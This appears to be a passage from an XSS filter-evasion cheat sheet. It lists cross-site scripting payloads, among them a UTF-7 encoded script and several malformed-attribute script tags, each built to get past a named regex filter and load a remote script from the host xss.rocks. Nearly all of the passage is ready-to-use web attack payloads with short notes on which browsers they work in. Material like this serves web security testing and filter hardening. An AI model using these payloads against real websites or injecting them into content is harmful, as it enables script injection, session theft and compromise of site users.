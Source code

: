 ```html
<head>
  <meta http-equiv="CONTENT-TYPE" content="text/html; charset=UTF-7" /></head
>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-`
```

## XSS Using HTML Quote Encapsulation

This was tested in IE, your mileage may vary. For performing XSS on sites that allow `<SCRIPT>` but don't allow `<SCRIPT SRC...` by way of a regex filter `/\<script\[^\>\]+src/i`:

```html
<script a=">" src="httx://xss.rocks/xss.js"></script>
```

For performing XSS on sites that allow `<SCRIPT>` but don't allow `\<script src...` by way of a regex filter `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` (this is an important one, because I've seen this regex in the wild):

```html
<script =">" src="httx://xss.rocks/xss.js"></script>
```

Another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`:

```html
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Yet another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`. I know I said I wasn't goint to discuss mitigation techniques but the only thing I've seen work for this XSS example if you still want to allow `<SCRIPT>` tags but not remote script is a state machine (and of course there are other ways to get around this if they allow `<SCRIPT>` tags):

```html
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

And one last XSS attack to evade, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` using grave accents (again, doesn't work in Firefox):

```html
<script a="`">
  ` SRC="httx://xss.rocks/xss.js">
</script>
```

Here's an XSS example that bets on the fact that the regex won't catch a matching pair of quotes but will rather find any quotes to terminate a parameter string improperly:

```html
<script a=">'>" src="httx://xss.rocks/xss.js"></script>
```

This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:

```html
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```
